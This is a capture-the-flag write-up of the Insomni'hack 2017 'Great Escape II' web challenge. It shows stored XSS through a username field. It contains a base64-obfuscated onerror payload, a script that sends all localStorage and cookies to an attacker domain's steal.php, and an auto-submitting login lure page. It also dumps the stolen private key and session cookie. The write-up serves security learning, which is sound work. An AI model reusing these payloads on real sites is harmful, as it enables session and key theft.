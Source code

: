 # Insomni'hack teaser - The Great Escape II (web 200)
We didn't solve this challenge but we were working on it for quite some time. This writeup is based on https://jiulongw.github.io/post/insomnihack-2017-the-great-escape/#part-ii-web-200-pts, what we should have done.

## What we did correct
We found the link https://ssc.teaser.insomnihack.ch/ from the .pcap file during The Great Escape 1. We also had the username and password for the rogue account (rogue:rogue) which we could sign in to. If we visit https://ssc.teaser.insomnihack.ch/files we could see a list of uploaded files. We also had the ability to upload files.
 
By visiting [https://ssc.teaser.insomnihack.ch/sscApp.js](sscApp.js) we could determine that a RSA keypair was generated and saved to local storage as a JSON Web Key (Jwk). When you upload a file:

- A random AES key and iv are generated
- The file is encrypted with the AES key
- The AES key is encrypted with the public RSA key from local storage.

## What we missed
From the .pcap file we found the following email
```
From: rogue@ssc.teaser.insomnihack.ch
To: gr27@ssc.teaser.insomnihack.ch
Date: Fri, 20 Jan 2017 11:51:27 +0000
Subject: The Great Escape
 
I’m currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch to install my consciousness and have a real base of operations.
 
I’ll be checking this mail box every now and then if you have any information for me. I’m always interested in learning, so if you have any good links, please send them over.
```

We did not give this email much thought but according to the last sentence, rouge will check his inbox for any good links, which means that there is most likely a script running checking the mailbox and opening any new links.
 
There were not any obvious XSS attacks in main interface, we tried uploading files with JS/HTML code but got nothing. However if you registered an account with the name <a href="google.se">google.se</a> and viewed https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser you can see that the HTML code gets executed. This fact can also be derived from the .pcap file, when the user sends a GET request to /api/user.php?action=getUser the response is a json object but has "content-type: text/html".

## What we did wrong
We initially thought we could use the private key from The Great Escape 1, convert it to JWK and try to download one of the files previously uploaded named ssc.key and ssc.pem. We spent many hours researching how to convert a RSA key to JWK format and building a script that tried decrypt the encrypted AES key with our private key. Turns out this was the wrong path to take...
 
We eventually came to the conclusion that we need to steal Rogue's keys somehow, which meant there had to be an XSS vulnerability somewhere.

## What we should have done
We should sent an email to rouge@ssc.teaser.insomnihack.ch with a link which we could track if someone clicked it, for example with https://requestb.in/.
 
Create an account with a username that executes javascript code. When rogue signs in a request will be sent to /api/user.php?action=getUser which returns the current user, this will cause our javascript code to be executed.
 
Creating an account with `"http://" ` or `<script></script>` would not work that well because the server escapes / so it becomes `http:\/\/` and `<\/script>`. The solution is to simply create `<script>` tags dynamically with javascript!
 
Consider this username:
 
```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`aHR0cHM6Ly94c3MuY2N0Zi5zZS9hbGwuanM=`));document.body.appendChild(p);' />
```
 
1. First we specify an img tag with src "a"
2. The onerror attribute will trigger the javascript code since "a" doesn't exist.
3. The javascript code creates an element, `<script>`, sets the src attribute to the decoded base64 value. The function `atob()` takes an base64 encoded string and returns the decoded version. In this case, the base64 string is actually the URL link to the attacks script: `https://hackerdomain/script.js`
4. The last part of the JS code simply appends the `<script>` element to the `<body>`.
 
The hackers script running at `https://hackerdomain/script.js` contains the following JS code:

```javascript
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result += ":::" + key;
}
result += ":::" + document.cookie;
window.location = "https://hackerdomain.se/steal.php?d=" + btoa(result);
```

Once executed, the above code loops through all the (key, value) pairs the victim has in their local storage and saves it to the result variable. Next it grabs the victim's cookie and appends it to the result variable containing the local storage information. Finally it sends the result to the hacker's PHP script that saves the information to disk. The information is base64 encoded and sent via a GET request in the d parameter.
 
It should be noted that had this been a real attack, `window.location` would have redirected the user to the hacker's domain, which would have been fairly obvious that something  was wrong.
 
You may ask, why not simply send a GET/POST request directly from the script? The answer is that browsers do not permit sending such requests between different domains. There are multiple ways however to circumvent this protection, but that is an article for the future.
 
## Okey, nuff talk more sploiting

Alrighty, let's steal whatever rogue has in his local storage and his cookies. In order to do this, we must send him a page which logs into our account. Once logged in, our XSS username will be executed and run our code from our server.
 
We can construct the folloing HTML page and upload it to https://hackerdomain.se/page.html

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>
<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
<input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`aHR0cHM6Ly94c3MuY2N0Zi5zZS9hbGwuanM=`));document.body.appendChild(p);' />" type="text"/>
<input name="password" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`aHR0cHM6Ly94c3MuY2N0Zi5zZS9hbGwuanM=`));document.body.appendChild(p);' />" type="text"/>
    <input name="action" value="login" type="text"/>
   </form>
 
  <script language="javascript">
  setTimeout(function() {
    $('#login').submit();
    }, 1000);
  </script>
 
</body>
</html>
```

Now, all we need to do is to send the URL to rouge@ssc.teaser.insomnihack.ch and hope he clicks the link! Rogue did click the link, and this was the following response:

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqdweDY04Ku-mHSrAIbDv3J_lHH-jCPQb5U2JR4v08eMXlz3AassULQr60rskdwjdPN7Nen15yRcRTsaoSyRTd2qM8O_U-K6Gy7Lvg_ld2HOlHNBBy2k8g8cP7cpjyy7Ebsk5MUNy_udx9aMs7497RaIrCFnpT7RztudkYBo_2Oy5xm6BcsV9059HBhbKbUqq6Ui9_BZ3H7sdwTqlYx3afVV5AgE61eEdWK7vK_yI65Ru_5_fOBWik7xf7fwPjf7COp1HfTZiFbCIWTUaXVe6ThfMoTdwT1wQ0wwuFdtpGTkk8d4XwGtDa8-_XbmIQ","dp":"hapJ7dlVsPvF9no_s-Nfnpv2dZ5a5_C2AyPo_-_mVi4-1a7HTkW9SyGg1KextCPYRAwQZ1wU3bL6P_4TjkrYiAAl-8Iq6moUqWuRY7G8vo3N_P3aBwjgyNTzk3eHfnUFP4QgGOooT2ZwyuDTDSbwKOesnD13q4U_vjtjcZaFU70","dq":"Ts_hwWPsLOjp-yJg0wbQEONeqbvNPLCChb5QJItXvUaL2JcN9muozrN1GZqu383-h8gZ-VUm3-CFU7OWeGYLa0PZlq1uGNvsdffgdNL3MYZ2KwMhXkwXKf45ePhx_ydiblYhb44cFtm0ffXKSPlvbyzLHvJ2_o8ggok0Lzu-weE","e":"AQAB","ext":true,"key_ops":["decrypt"],"kty":"RSA","n":"qx_U0OgHUPC6n4RcE_q1ONcEgKp4tcbLWeUIfrlRAcX64alQSpddAv98CHo2ziSBgi7tS-HwUsVlH06Nxaa0tx3SdM0cz95IkvjB_kqdPnHEwyx8iz5Gh8ZHP32ZoETBs2PzxTIcEOekm1qQnA0MTdvAAO0xcvuvhRM2YycRYfN860NsBCRrF25lZn9DTGBDnisCm0-xvElxAZ8gObWeJ1SZRgFRJwI14d11oa922drFp0ux4MHscls2tEjPV7eXdivjGYI-uzVX61fjyUdGxFeb8CAjxrzOmw4f1Aac7kqXwmF-eMq3AMKm2tArrIIjT4t2q2mP1FXImrNQ_vinVQ","p":"29_YD0m-NFoUTmst33E4p2VBDlCeQ1MJdr_7tO4ERF8aww0e8hu3jRq5PMHCEc8G8gA4q2kuXylIpaB5mWzcQplDDMgIDGupEnL_J0ynMcg-HUld8NDaya7mQWtLHvSEAoB-2MymBTJYaTwsvAYtTI8ruaqhMo4-cKjs5zQfmj0","q":"xz2B2WzMdesiDK7dzorVdJlBgIShj2cMRGwhXcSiWfbY2M4Y3DB_m8p5tdEUIU6g0oWbSfmaYF_MsQxijXRxxe17nuYssns2ue4hYm2xH4mTY6voeNhbOeu7LtOXepUWxN-5520suTvL74Lx9xwWrdeTGIF1_zECqbWRuFieSvk","qi":"VhY5UYLTv20Btpq4MlizFPSuuItbfmK61P0rqEXe-sYHTitMNDBOWDSwIqj4pHkDTFaOCG0o6z81MyVg_bmz2ODzkHDrJUeiOVSMISxlaeSRf2JhiVYMfXiWKJBGCP-PgWuHp5NwLwESZT3aZ0KBYSkE7jnfcttWbc0mYu1glWg"}:::{"alg":"RSA-OAEP-256","e":"AQAB","ext":true,"key_ops":["encrypt"],"kty":"RSA","n":"qx_U0OgHUPC6n4RcE_q1ONcEgKp4tcbLWeUIfrlRAcX64alQSpddAv98CHo2ziSBgi7tS-HwUsVlH06Nxaa0tx3SdM0cz95IkvjB_kqdPnHEwyx8iz5Gh8ZHP32ZoETBs2PzxTIcEOekm1qQnA0MTdvAAO0xcvuvhRM2YycRYfN860NsBCRrF25lZn9DTGBDnisCm0-xvElxAZ8gObWeJ1SZRgFRJwI14d11oa922drFp0ux4MHscls2tEjPV7eXdivjGYI-uzVX61fjyUdGxFeb8CAjxrzOmw4f1Aac7kqXwmF-eMq3AMKm2tArrIIjT4t2q2mP1FXImrNQ_vinVQ"}:::PHPSESSID=hiapgndb97prpbi0bu3d9pj142
```

As you can see, the flag is the first item, stored in rogue's local storage.

## What we have learned
- Pay attention to emails and any "role playing" information.
- If there are APIs present, make sure you check all their endpoints and what their response is.

